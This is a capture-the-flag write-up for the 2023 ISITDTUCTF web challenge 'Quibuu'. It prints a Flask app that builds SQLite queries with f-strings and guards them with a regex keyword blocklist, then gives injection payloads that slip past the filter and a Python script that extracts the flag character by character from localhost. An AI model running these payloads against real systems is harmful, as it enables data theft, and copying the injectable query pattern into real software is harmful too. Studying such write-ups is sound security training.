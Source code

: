 ```yaml
---
title: 2023 ISITDTUCTF - Quibuu
date: 2023-10-15 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_ISITDTUCTF
  - Web Exploitation
  - SQL injection
---
```


## Overview

* 30 solves / 127 points
* Author: Discord _onsra_

## Description

> Hmmmmm, u are QuiBuu, right? xD

### Attached

[quibuu_dist.zip](https://github.com/encuetee/CTF-writeups/blob/main/2023/2023_ISITDTUCTF/attached/quibuu_dist.zip)

This is ```app.py``` file
```py
from flask import Flask, render_template, request
import random
import re
import urllib.parse
import sqlite3

app = Flask(__name__)


def waf_cuc_chill(ans):
    # idk, I thought too much of a good thing
    ans = urllib.parse.quote(ans)
    pattern = re.compile(r'(and|0r|substring|subsrt|if|case|cast|like|>|<|(?:/\%2A.*?\%2A/)|\\|~|\+|-|when|then|order|name|url|;|--|into|limit|update|delete|drop|join|version|not|hex|load_extension|round|random|lower|replace|likely|iif|abs|char|unhex|unicode|trim|offset|count|upper|sqlite_version\(\)|#|true|false|max|\^|length|all|values|0x.*?|left|right|mid|%09|%0A|%20|\t)', re.IGNORECASE)
    
    if pattern.search(ans):
        return True
    return False

@app.route("/", methods=["GET"])
def index():
    ran = random.randint(1, 11)
    id, ans= request.args.get("id", default=f"{ran}"), request.args.get("ans", default="")

    if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
        id = 1
    

    db = sqlite3.connect("hehe.db")
    cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
    img = cursor.fetchone()[0]

    if waf_cuc_chill(ans):
        return render_template("hack.html")
    
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2

    return render_template("index.html", id=id, img=img, ans=ans, check=check)

if __name__ == "__main__":
    app.run()
```

## Analyzation

Check around, the flag is in the database, therefore our target is sqli.
```
id = 1337, name=ISITDTU, URL = flag
```

There are two sql queries:

```py
db = sqlite3.connect("hehe.db")
cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
img = cursor.fetchone()[0]
```

and

```py
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2
```

The first sql query is useless since ```id``` will never reach ```1337```.
```py
if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
    id = 1
```

So the second query will be used, and to the ```ans``` variable. In this problem, error-based sqli works fine.

But we have to bypass ```waf``` first
```py
if waf_cuc_chill(ans):
    return render_template("hack.html")
```

These are some vulnerabilities of waf

- Two columns' name in the database are blocked, ```name``` and ```url```,  column ```id``` and the table name ```QuiBuu``` are not blocked.

- Keywords in a query, such as ```select```, ```from```, ```where```, and others, are not blocked.

- It blocks almost all whitespace characters, except for ```\r```.

- The input string is not escaped.

- Keyword ```like``` is blocked, but keyword ```glob``` can be used instead.

- ```substring()``` is blocked, but ```instr()``` is not. This is the keypoint.

## Exploitation

Firstly, my idea was

```py
id = 10
ans = "Naruto' union select * from QuiBuu where url glob \'ISIT*"
ans = ans.replace(" ", "\r")
```

I tried to select ```url``` column with many ways. But it was not work since the keyword was blocked. Then I created a temporary table to use alias
```py
id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{flag_guess}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")
```

- If ```flag_guess``` is correct, the query will return all data in tables.

Another payload using ```GROUP_CONCAT()```.

```py
id = 10
ans = "a' OR (SELECT instr(( SELECT GROUP_CONCAT(\"pet\") FROM ( SELECT \"admin\", \"user\", \"pet\" UNION SELECT * FROM QuiBuu WHERE id=1337 ) ), \"{flag_guess}\"))/*"
ans = ans.replace(" ", "\r")
```

Now the third column is no longer ```url```, but ```pet```.

## Solution

```py
import requests
import string

ALPHABET = "_}" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL = "http://localhost:1301/?id={}&ans={}"

id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")

flag = "ISITDTU{"
while "}" not in flag:
    for c in ALPHABET:
        response = requests.get(URL.format(id, ans.format(flag + c)))
        if b"Haha QuiBuu" in response.content:
            flag = flag + c
            print(f"-----------flag_guess: {flag} ------------")
            break
print(URL.format(id, ans.format(flag + c)).encode())
```